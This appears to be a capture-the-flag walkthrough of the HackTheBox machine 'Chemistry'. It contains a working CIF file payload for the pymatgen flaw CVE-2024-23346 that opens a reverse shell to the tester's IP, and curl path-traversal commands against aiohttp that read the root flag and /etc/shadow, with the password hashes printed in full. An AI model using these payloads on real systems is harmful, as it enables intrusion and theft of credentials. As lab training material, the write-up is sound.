

## Overview
This document outlines the process of exploiting vulnerabilities on the HackTheBox machine "Chemistry." The primary objectives include gaining initial access, exploring available services, and escalating privileges to obtain root access.


### Port Scan
```shell
# Nmap 7.94SVN scan initiated Fri Oct 25 12:20:35 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.10.11.38
Nmap scan report for 10.10.11.38
Host is up (0.098s latency).
Not shown: 986 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
306/tcp   filtered unknown
668/tcp   filtered mecomm
1049/tcp  filtered td-postman
1112/tcp  filtered msql
1247/tcp  filtered visionpyramid
1600/tcp  filtered issd
1801/tcp  filtered msmq
4848/tcp  filtered appserv-http
5000/tcp  open     upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 16:20:57 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
5633/tcp  filtered beorl
5915/tcp  filtered unknown
8291/tcp  filtered unknown
55555/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=10/25%Time=671BC560%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,38A,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3
SF:\x20Python/3\.9\.5\r\nDate:\x20Fri,\x2025\x20Oct\x202024\x2016:20:57\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x20719\r\nVary:\x20Cookie\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=
SF:\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"wid
SF:th=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Chemi
SF:stry\x20-\x20Home</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/styles\.css\">\n</head>\n<body>\n\x20\x20\x20\x20\n\x
SF:20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\n\x20\x20\x20\x20<div\x20class
SF:=\"container\">\n\x20\x20\x20\x20\x20\x20\x20\x20<h1\x20class=\"title\"
SF:>Chemistry\x20CIF\x20Analyzer</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>
SF:Welcome\x20to\x20the\x20Chemistry\x20CIF\x20Analyzer\.\x20This\x20tool\
SF:x20allows\x20you\x20to\x20upload\x20a\x20CIF\x20\(Crystallographic\x20I
SF:nformation\x20File\)\x20and\x20analyze\x20the\x20structural\x20data\x20
SF:contained\x20within\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s=\"buttons\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<center
SF:><a\x20href=\"/login\"\x20class=\"btn\">Login</a>\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"/register\"\x20class=\"btn\">R
SF:egister</a></center>\n\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\
SF:x20\x20</div>\n</body>\n<")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20
SF:version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Er
SF:ror\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20r
SF:equest\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20
SF:</body>\n</html>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/25%OT=22%CT=1%CU=30360%PV=Y%DS=2%DC=T%G=Y%TM=671
OS:BC5D9%P=x86_64-pc-linux-gnu)SEQ(TS=A)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%
OS:II=I%TS=A)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=101%GCD=1%
OS:ISR=10C%TI=Z%CI=Z%II=I%TS=D)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT
OS:11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=F
OS:E88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN
OS:=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   93.00 ms 10.10.14.1
2   93.29 ms 10.10.11.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 12:22:49 2024 -- 1 IP address (1 host up) scanned in 133.34 seconds

```
## Port 5000 - Initial Access
After creating a user account and logging in on port 5000, an upload form becomes visible. This upload form allows for the submission of `.cif` files, which we will use for further exploitation.


### Example File and Vulnerability Research

Upon reviewing the upload functionality, I found a reference to a relevant vulnerability: [CVE-2024-23346](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0). This vulnerability allows for arbitrary code execution in the `pymatgen` library due to insecure handling of `.cif` files.

### Exploit Creation
To generate a reverse shell exploit, I appended the following code to the example `.cif` file, which leverages the vulnerability in `pymatgen`:


```python
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

After some searches i found this resource:
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

So generate a reverse shell exploit appending these lines to example file:

```python
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.57/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

After uploading the modified .cif file and clicking the "view" button, a reverse shell connection was established, allowing access to the server.



Once in I browsed trough folders and found a .db file in **/instance**:


So copy it and store in local to analyze and the go to https://inloop.github.io/sqlite-viewer/ to visualize it:


```
userflag:63ed86e********
```

After cracking the MD5 hash on CrackStation, I obtained the following plaintext password:


```
rosa:u**********
```
### SSH Access
With the cracked credentials, I attempted to establish an SSH connection to the machine as the user rosa. This provided access to additional internal services. Port Forwarding and Service Exploration

After connecting via SSH, I noticed an internal service running on port 8080, which wasn’t directly exposed externally.


Using SSH port forwarding, I forwarded this port to my local machine and accessed the web application it hosted.


```shell
rosa@chemistry:~$ curl localhost:8080 --head
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Fri, 01 Nov 2024 23:43:28 GMT
Server: Python/3.9 aiohttp/3.9.1
```

The running service is aiohttp 3.9.1, which is vulnerable to directory traversal attack: 
Through this vulnerability we can get the root flag:

### Exploiting Directory Traversal on aiohttp
The service running on port 8080 uses aiohttp version 3.9.1, which is vulnerable to a directory traversal attack: **[CVE-2024-23334](https://github.com/ox1111/CVE-2024-23334)**. By exploiting this vulnerability, I was able to retrieve the root flag directly from the server: I also used this directory traversal method to access the /etc/shadow file, which contained hashed passwords for further analysis. Summary and Next Steps

```shell
┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt
6401b9e5a23e0b******

┌──(kali㉿kali)-[~]
└─$ curl -s --path-as-is http://localhost:8080/assets/../../../../etc/shadow
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::

```

With the root flag acquired, I have successfully completed the primary objectives. However, as a final step, I may attempt to crack the root password hash from the /etc/shadow file to obtain full root access.
